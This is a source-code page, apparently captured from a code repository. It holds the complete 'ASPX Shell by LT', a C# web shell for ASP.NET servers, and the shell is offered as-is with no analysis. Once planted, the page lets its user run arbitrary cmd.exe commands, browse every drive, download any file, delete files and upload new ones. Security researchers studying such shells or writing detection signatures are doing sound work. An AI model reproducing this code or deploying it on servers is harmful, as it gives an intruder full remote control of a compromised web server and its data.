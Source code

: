 ## webshell ASPX
<%-- ASPX Shell by LT <lt@mac.hush.com> (2007) --%>
<%@ Page Language="C#" EnableViewState="false" %>
<%@ Import Namespace="System.Web.UI.WebControls" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>

<%
	string outstr = "";
	
	// get pwd
	string dir = Page.MapPath(".") + "/";
	if (Request.QueryString["fdir"] != null)
		dir = Request.QueryString["fdir"] + "/";
	dir = dir.Replace("\\", "/");
	dir = dir.Replace("//", "/");
	
	// build nav for path literal
	string[] dirparts = dir.Split('/');
	string linkwalk = "";	
	foreach (string curpart in dirparts)
	{
		if (curpart.Length == 0)
			continue;
		linkwalk += curpart + "/";
		outstr += string.Format("<a href='?fdir={0}'>{1}/</a>&nbsp;",
									HttpUtility.UrlEncode(linkwalk),
									HttpUtility.HtmlEncode(curpart));
	}
	lblPath.Text = outstr;
	
	// create drive list
	outstr = "";
	foreach(DriveInfo curdrive in DriveInfo.GetDrives())
	{
		if (!curdrive.IsReady)
			continue;
		string driveRoot = curdrive.RootDirectory.Name.Replace("\\", "");
		outstr += string.Format("<a href='?fdir={0}'>{1}</a>&nbsp;",
									HttpUtility.UrlEncode(driveRoot),
									HttpUtility.HtmlEncode(driveRoot));
	}
	lblDrives.Text = outstr;

	// send file ?
	if ((Request.QueryString["get"] != null) && (Request.QueryString["get"].Length > 0))
	{
		Response.ClearContent();
		Response.WriteFile(Request.QueryString["get"]);
		Response.End();
	}

	// delete file ?
	if ((Request.QueryString["del"] != null) && (Request.QueryString["del"].Length > 0))
		File.Delete(Request.QueryString["del"]);	

	// receive files ?
	if(flUp.HasFile)
	{
		string fileName = flUp.FileName;
		int splitAt = flUp.FileName.LastIndexOfAny(new char[] { '/', '\\' });
		if (splitAt >= 0)
			fileName = flUp.FileName.Substring(splitAt);
		flUp.SaveAs(dir + "/" + fileName);
	}

	// enum directory and generate listing in the right pane
	DirectoryInfo di = new DirectoryInfo(dir);
	outstr = "";
	foreach (DirectoryInfo curdir in di.GetDirectories())
	{
		string fstr = string.Format("<a href='?fdir={0}'>{1}</a>",
									HttpUtility.UrlEncode(dir + "/" + curdir.Name),
									HttpUtility.HtmlEncode(curdir.Name));
		outstr += string.Format("<tr><td>{0}</td><td>&lt;DIR&gt;</td><td></td></tr>", fstr);
	}
	foreach (FileInfo curfile in di.GetFiles())
	{
		string fstr = string.Format("<a href='?get={0}' target='_blank'>{1}</a>",
									HttpUtility.UrlEncode(dir + "/" + curfile.Name),
									HttpUtility.HtmlEncode(curfile.Name));
		string astr = string.Format("<a href='?fdir={0}&del={1}'>Del</a>",
									HttpUtility.UrlEncode(dir),
									HttpUtility.UrlEncode(dir + "/" + curfile.Name));
		outstr += string.Format("<tr><td>{0}</td><td>{1:d}</td><td>{2}</td></tr>", fstr, curfile.Length / 1024, astr);
	}
	lblDirOut.Text = outstr;

	// exec cmd ?
	if (txtCmdIn.Text.Length > 0)
	{
		Process p = new Process();
		p.StartInfo.CreateNoWindow = true;
		p.StartInfo.FileName = "cmd.exe";
		p.StartInfo.Arguments = "/c " + txtCmdIn.Text;
		p.StartInfo.UseShellExecute = false;
		p.StartInfo.RedirectStandardOutput = true;
		p.StartInfo.RedirectStandardError = true;
		p.StartInfo.WorkingDirectory = dir;
		p.Start();

		lblCmdOut.Text = p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd();
		txtCmdIn.Text = "";
	}	
%>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml" >
<head>
	<title>ASPX Shell</title>
	<style type="text/css">
		* { font-family: Arial; font-size: 12px; }
		body { margin: 0px; }
		pre { font-family: Courier New; background-color: #CCCCCC; }
		h1 { font-size: 16px; background-color: #00AA00; color: #FFFFFF; padding: 5px; }
		h2 { font-size: 14px; background-color: #006600; color: #FFFFFF; padding: 2px; }
		th { text-align: left; background-color: #99CC99; }
		td { background-color: #CCFFCC; }
		pre { margin: 2px; }
	</style>
</head>
<body>
	<h1>ASPX Shell by LT</h1>
    <form id="form1" runat="server">
    <table style="width: 100%; border-width: 0px; padding: 5px;">
		<tr>
			<td style="width: 50%; vertical-align: top;">
				<h2>Shell</h2>				
				<asp:TextBox runat="server" ID="txtCmdIn" Width="300" />
				<asp:Button runat="server" ID="cmdExec" Text="Execute" />
				<pre><asp:Literal runat="server" ID="lblCmdOut" Mode="Encode" /></pre>
			</td>
			<td style="width: 50%; vertical-align: top;">
				<h2>File Browser</h2>
				<p>
					Drives:<br />
					<asp:Literal runat="server" ID="lblDrives" Mode="PassThrough" />
				</p>
				<p>
					Working directory:<br />
					<b><asp:Literal runat="server" ID="lblPath" Mode="passThrough" /></b>
				</p>
				<table style="width: 100%">
					<tr>
						<th>Name</th>
						<th>Size KB</th>
						<th style="width: 50px">Actions</th>
					</tr>
					<asp:Literal runat="server" ID="lblDirOut" Mode="PassThrough" />
				</table>
				<p>Upload to this directory:<br />
				<asp:FileUpload runat="server" ID="flUp" />
				<asp:Button runat="server" ID="cmdUpload" Text="Upload" />
				</p>
			</td>
		</tr>
    </table>

    </form>
</body>
</html>

